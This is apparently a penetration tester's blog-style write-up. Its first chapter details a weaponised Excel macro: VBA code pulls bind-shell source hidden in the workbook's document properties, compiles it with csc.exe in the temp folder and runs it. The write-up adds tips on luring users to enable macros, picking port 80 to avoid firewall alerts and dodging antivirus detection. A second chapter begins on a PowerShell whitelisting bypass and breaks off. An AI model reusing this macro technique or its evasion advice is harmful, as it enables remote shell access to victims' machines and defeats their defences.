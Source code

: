 # InfoSec Chronicles from Noobland
## Chapter 0: Abuse Excel VBA macro, a simple approach
###### 21/07/20 ver 1.2
In this article I will illustrate how to execute a payload loaded from a VBA macro script embedded in an Excel xlsm file.<br>
I did not implement any obfuscation\encrypting technique, this has to be consider as a POC. Beware that using well known tools will rise AV warning in most cases,
The requirement was to bypass a note AV software installed on a client machine. Following the events:
* A mail with the Excel file was sent to the client, here I play the role of the victim<br>
![Screenshot](screen/mail.png)
* The mail was not marked as Spam, the user eventually can open directly the enclosed file using the corresponding Outlook feature or download to a local folder
* Once the file has been opened of course a warning appears about the macro content. Here it is necessary to lure the user to enable the macro<br>
![Screenshot](screen/macro.png)
* If the macro is enabled the VBA script will *compile a payload*, in this case a bind shell and execute it. Here the MS firewall warn the user since I used a not common port (4444), using a port like 80 did not rise any warning<br>
![Screenshot](screen/fwarn.png)
* The bind shell is executed (a shell window will popup, you need of course to hide it), the AV will sandbox the exe file but actually the shell is executed<br/>
![Screenshot](screen/run.png)
###### *The logic*
* I embedded the source code of the bind shell in the comment property of the Excel file Here the link to the MS doc: https://docs.microsoft.com/en-us/dotnet/api/microsoft.office.tools.excel.workbook.builtindocumentproperties?view=vsto-2017 and I retrived the value in the VBA script as follows:<br>
`var = ActiveWorkbook.BuiltinDocumentProperties(5)`<br>
I used a file system object to write the source code of the shell to the *user temp folder*
```
    Dim path As String
    path = Environ("Temp")
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")
    Dim oFile As Object
    Set oFile = FSO.CreateTextFile(path & "\mal.cs")
```
* Then I write the content to the file
```   
   oFile.Write var
   oFile.Close
```
* I used the same technique to get the port, that is parametric, and to initialize the wscript shell object<br>
![Screenshot](screen/propxlsm.png)
```
    Dim wSo as Object
    shellObj = ActiveWorkbook.BuiltinDocumentProperties(4)
    wSo = CreateObject(shellObj)
```
* Now we need to find a compiler on the system, I searched for the *csc.exe* since the .Net FW is installed almost on every newer Win OS and my payload is written in C#. Follows the recursive function used to accomplish the task
```
Sub FindCSC(ByVal folderPath As String)

Dim fileName As String
Dim fullFilePath As String
Dim numFolders As Long
Dim folders() As String
Dim i As Long

If Right(folderPath, 1) <> "\" Then folderPath = folderPath & "\"
fileName = Dir(folderPath & "*.*", vbDirectory)

While Len(fileName) <> 0

    If Left(fileName, 1) <> "." Then
 
        fullFilePath = folderPath & fileName
 
        If (GetAttr(fullFilePath) And vbDirectory) = vbDirectory Then
            ReDim Preserve folders(0 To numFolders) As String
            folders(numFolders) = fullFilePath
            numFolders = numFolders + 1
        Else
            If fileName = "csc.exe" Then
                CSC = folderPath & fileName 'found compiler
                Exit Sub
            End If
        End If
 
    End If
 
    fileName = Dir()

Wend

For i = 0 To numFolders - 1
    'if found we exit
    If CSC <> "" Then
        Exit For
    End If
    FindCSC folders(i)
 
Next i

End Sub
```
* Now assuming that the full path of csc.exe is stored in the CSC variable the following will compile the source file:
```
    Dim exePath As String
    exePath = """" & path & "\mal.exe" & """"
    wSo.exec CSC & " /t:exe /out:" & exePath & " " & csPath
```
* Finally I executed the bind shell
```
wSo.exec path & "\mal.exe"
```
* Once the source file has been compiled it will be deleted, if not runnin even the exe file will be deleted on closing the Excel file

###### *Conclusion*
The idea is to compile a payload on the victim machine in order to avoid to downlad it from somewhere since the corresponding code will rise alerts on AV software, same thing happens trying to run a cmd or a bat file. Not talk about powershell. Of course you have to avoid to embedd well-known code or created with msfvenom since they will be detected once compiled. Be creative and code your stuff.<br>Here you can download the Excel file and the source code of the bind shell, the file is encrypted and you need a password to open it, if you are good guy ;) you can drop me an email at **filobers[at]pm[dot]me** and I will happy to assist you<br>

## Chapter 1: Abuse IE to download and execute a payload through PS
###### 13/09/20 ver 1.0
I had to bypass a white list applications execution enviroment, lucky PS scripts were allowed on almost every machine, as well as .Net FW 3.5 executable (not signed).
The client has installed an AV solution, with an host firewall. No IPS\IDS were present on the network (now they are!).<br>
Here I will skip the social engineering part about how to lure the victim to lunch the PS script, actually this is the real magic part :). This is only a POC. Following the recipe:
1. An SSL certificate (here I will use a fake one, providing the code to bypass the error)
1. A windows client (AKA victim) machine: in this POC a win 10 pro x64 box, with a AV solution and host firewall activated
1. An attacker Linux box with Python an *old netcat version installed, here I use Parrot OS.

Since this is only a POC, as usual, not covering techniques are implemented, to cut the long story short I skip all the red teaming stuff. The execution plane was:<br>

